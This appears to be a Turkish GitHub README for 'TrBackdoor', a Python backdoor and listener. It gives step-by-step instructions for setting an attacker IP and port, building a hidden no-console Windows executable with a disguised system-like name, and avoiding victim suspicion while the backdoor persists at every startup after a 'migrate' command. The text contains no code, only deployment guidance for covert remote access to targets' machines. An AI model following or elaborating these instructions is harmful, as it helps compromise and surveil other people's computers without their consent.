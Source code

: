 # TrBackdoor
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/Command.png)
## Backdoor Ayarları
Not: sysupgrades ismini isterseniz değiştirebilirsiniz. Lakin backdoor'u hedefte saklamak istediğiniz zaman değiştirmiş olacağınız isim kullanıcıyı şüphelendirmemeli.<br/>
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yani kod bloklarının altında yer alan"ConfigSocket = MySocket("buraya bağlantı açacak bir ip adresi",port) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("Dinleyici ip adresi",port)" kısmını kendi local ip adresinizi giriniz. Yani<br/>
<br/>![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ListenerSettings.png)<br/>Böylece artık gelen bağlantıları dinlemeye hazırsınız.<br/>[!<br/>[[SC2 Video](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/TrBackdoor.gif)](https://www.youtube.com/watch?v=NVCAhal6wl8&feature=youtu.be)

